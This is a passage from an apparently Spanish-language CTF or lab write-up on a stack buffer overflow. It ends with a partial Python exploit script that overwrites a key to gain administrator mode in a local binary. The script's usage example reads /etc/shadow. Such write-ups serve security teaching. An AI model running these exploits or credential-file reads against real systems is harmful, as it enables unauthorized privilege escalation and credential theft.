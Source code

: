 ![](<../assets/images/posts/2024-12-21-stack/Pasted image 20241221152346.png>)

Cuando lo volvemos a ejecutar veremos como la **key** ahora vale `dead` y además nos indica que hemos entrado en modo administrador.

![](<../assets/images/posts/2024-12-21-stack/Pasted image 20241221152241.png>)

Finalmente, debemos de actualizar el script añadiendo el comando que queremos de ejecutar, pues en el binario descompilado vemos que esta es la siguiente instrucción.

![](<../assets/images/posts/2024-12-21-stack/Pasted image 20241221152657.png>)

Es decir, el exploit de python quedaría finalmente así:

```python
#!/usr/bin/env python3

import subprocess
import sys

offset = 76
junk = b"A" * 76
#rip = b"B" * 8

password = b"\xad\xde"

payload = junk + password

def get_command():
    if len(sys.argv) == 2:
        return sys.argv[1]
    else:
        print("\n[!] Debes de pasar como argumento el comando que deseas ejecutar. Ej: python3 exploit_bof.py \"cat /etc/shadow\"\n")
        sys.exit(1)

def main(command):

    proceso = subprocess.Popen(
        ['./command_exec'], # Ajustar en función de la ruta del binario
        stdin=subprocess.PIPE,
        stdout=subprocess.PIPE,
        stderr=subprocess.PIPE,
    )

    proceso.stdin.write(payload + b"\n")
    proceso.stdin.flush()

```